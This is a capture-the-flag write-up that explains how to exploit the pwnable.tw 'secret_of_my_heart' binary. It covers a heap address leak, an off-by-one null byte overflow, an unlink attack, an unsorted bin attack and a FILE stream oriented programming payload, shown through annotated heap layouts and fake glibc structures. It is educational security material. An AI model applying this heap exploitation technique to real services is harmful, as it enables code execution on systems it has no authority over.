 # Pwnable tw - secret_of_my_heart 

First, check its protection info.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

We can simply see there are two vulnerabilites in the binary.

- In the ```add_secret``` the input of name without null byte, so we can leak ```heap address```
- After we input the ```secret```, it will add a null byte padding behind our payload. It will cause ```off by one null byte heap overflow```

After leaking heap address, we can launch unlink attack by making a fake pointer on the heap, so we will not revise the original pointer.

```
		0x00005615ddaf6030
 		------------------------------------------
secret[1] ->	|0x0000000000000000      0x0000000000000091|
fake fd,bk->	|0x00005615ddaf60c8      0x00005615ddaf60d0|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
				
		 0x00005615ddaf60c0
		 ------------------------------------------ 
secret[2] ->	|0x0000000000000090      0x0000000000000100|
		|0x0000000000000000      0x0000000000000000|
fake ptr ->	|0x00005615ddaf6030      0x0000000000000000|
		|0x0000000000000000      0x0000000000000000|
		|0x0000000000000000      0x0000000000000000|
		        ...			...
```

After ```del_secret(2)```, we can simple leak ```libc``` by ```show_secret(1)```

However, It's difficult to overwrite ```_malloc_hook```. 
I decided to use```FILE stream oriented programming``` to solve it. ([source](http://blog.angelboy.tw/))

First, I cosolidate all the chunk on the heap. However, we still have secret[1] pointer. 
So, there is a overlap chunk at ```0x00005615ddaf6030```, and heap top at ```0x00005615ddaf6000```

Next, add three secret with size 0x40(```secret[0]```), 0x80(```secret[2]```), and 0x80(```secret[3]```), respectively.
Our goal is launching unsorted bin attack on secret[2] chunk. In the first chunk, we modify the secret[1] chunk header to 0x81. And secret[3] make our partial fake ```_IO_FILE```, ```vtable```, ```wide_date``` objects.

#### _IO_FILE structrue
```
0x00:		 -----------------------------
		|        '/bin/sh\x00'        |
		 -----------------------------
		|                             |
		|                             |
		|           ......	       |
		|                             |
		|                             |
0xa0:		 -----------------------------
		|        wide_date ptr	       |
		 -----------------------------
		|            ...              |
		|            ...              |
0xc0:		 -----------------------------
		|            mode	       |
		 -----------------------------
		|            ...	       |
		 -----------------------------
		|            ...	       |
		 -----------------------------
		|          vtable ptr	       |
0xe0:		 -----------------------------
```
#### wide_data structure
```c
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
    ...
    ...
}
 
 ```

#### vtable structure
```c
struct _IO_jump_t
{
    JUMP_FIELD(_G_size_t, __dummy);
#ifdef _G_USING_THUNKS
    JUMP_FIELD(_G_size_t, __dummy2);
#endif
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
     ...
     ...
}
```

Then ```del_secret(1)``` and ```del_secret(2)```, since ```secret[1]``` size is fastbin size. 
```secret[1]``` will be append to ```fastbin[6]```, ```secret[2]``` will be added to ```unsorted bin```.

When we add a secret with size 0x78, will get original ```secret[1]``` overlaping with unsorted bin chunk.
Thus, we have full ```unsorted bin attack``` and ```FILE stream programming payload```

```
				    0x00005615ddaf6000
                                  ------------------------------------------
                secret[0] ->     |0x0000000000000000      0x0000000000000051|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
				
				    0x00005615ddaf6030
                                  ------------------------------------------
        original secret[1] ->    |0x0000000000000000      0x0000000000000081|
                                 |0x0000000000000000      0x0000000000000000|


				    0x00005615ddaf6050
                                  ------------------------------------------
secret[2], _IO_FILE object ->    |0x0068732f6e69622f      0x0000000000000061|
                                 |0x00007fcd76793b78      0x00007fcd76794510|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
				
				    0x00005615ddaf60e0
                                  ------------------------------------------
                 secret[3] ->    |0x0000000000000090      0x0000000000000090|
        fake wide_date ptr ->    |0x00005615ddaf6120      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000001      0x0000000000000000|
           fake vtable ptr ->    |0x0000000000000000      0x00005615ddaf6150|
                                 |0x0000000000000001      0x0000000000000002|
                                 |0x0000000000000003      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x00007fcd76415390|
                 top chunk ->    |0x0000000000000000      0x0000000000020e91|
```







